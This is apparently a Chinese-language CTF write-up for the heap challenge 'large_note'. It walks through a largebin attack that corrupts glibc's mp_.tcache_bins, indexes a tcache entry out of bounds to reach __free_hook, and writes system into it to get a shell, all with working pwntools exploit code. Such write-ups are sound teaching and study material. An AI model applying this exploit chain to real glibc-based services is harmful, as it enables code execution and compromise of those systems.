

# large_note

## 题目简述

程序同样存在释放后编辑和查看的 UAF，但主要考查 largebin attack。目标是利用 largebin 写原语修改 glibc 的 `mp_.tcache_bins`，扩大 tcache 可接受的 bin 下标范围，使 `tcache.entries[]` 越界到相邻用户 chunk，最终把一次大块申请导向 `__free_hook`。

## 解题过程

正常情况下，`tcache.counts[]` 和 `tcache.entries[]` 只覆盖固定数量的 size class。修改 `mp_.tcache_bins` 后，较大的 chunk 也会尝试进入 tcache；计算出的 entry 下标超出原数组，并落入紧邻 tcache 结构的可控堆块。



先布置两个 largebin 候选块及防止合并的隔离块：

```python
add_note(0, 0x528)
add_note(1, 0x600)
add_note(2, 0x518)
add_note(3, 0x600)
```

释放 chunk 0 后利用 UAF 泄露 unsorted bin 指针。由于 `main_arena+96` 低字节为零，先改成 `a` 再泄露，并按题目 libc 的偏移恢复基址：

```python
delete_note(0)
edit_note(0, b"a")
show_note(0)
libc_base = u64(io.recv(6).ljust(8, b"\x00")) - 0x1E3C61
edit_note(0, b"\x00")

mp = libc_base + 0x1E3280
free_hook = libc_base + libc.sym["__free_hook"]
malloc_hook = libc_base + libc.sym["__malloc_hook"]
system = libc_base + libc.sym["system"]
```

再覆盖较长字符串后查看 chunk 0，泄露相邻堆指针并减去 `0x290` 得到堆基址：

```python
add_note(15, 0x900)
edit_note(0, b"a" * 0x10)
show_note(0)
io.recvuntil(b"a" * 0x10)
heap_base = u64(io.recv(6).ljust(8, b"\x00")) - 0x290
```

伪造 largebin 元数据，把写入目标指向 `mp_` 附近的 `tcache_bins` 字段；释放另一个大块并再次申请，触发 largebin 插入：

```python
payload = p64(malloc_hook + 0x10 + 1168)
payload += p64(malloc_hook + 0x10 + 1168)
payload += p64(mp + 0x30)
payload += p64(mp + 0x30)
edit_note(0, payload)

delete_note(2)
add_note(14, 0x900)
```

此后，`0x600` 对应的 tcache entry 已越界到 chunk 0。释放 chunk 1，再通过 chunk 0 的 UAF 把该越界 entry 改成 `__free_hook`：

```python
delete_note(1)
edit_note(0, b"a" * 0xE8 + p64(free_hook))

add_note(1, 0x600)
edit_note(1, p64(system))
edit_note(0, b"/bin/sh\x00")
delete_note(0)
io.interactive()
```

大块申请返回 `__free_hook` 后写入 `system`，释放 `/bin/sh` chunk 即可获得 shell。

## 方法总结

largebin attack 的价值在于把堆指针写到攻击者选定的全局位置。本题没有直接把该写原语对准 hook，而是先扩大 `tcache_bins`，把固定长度的 per-thread tcache 数组变成越界索引，再利用相邻 chunk 控制目标指针。这是一条“全局参数破坏 → tcache 越界 → hook 覆盖”的组合利用链。
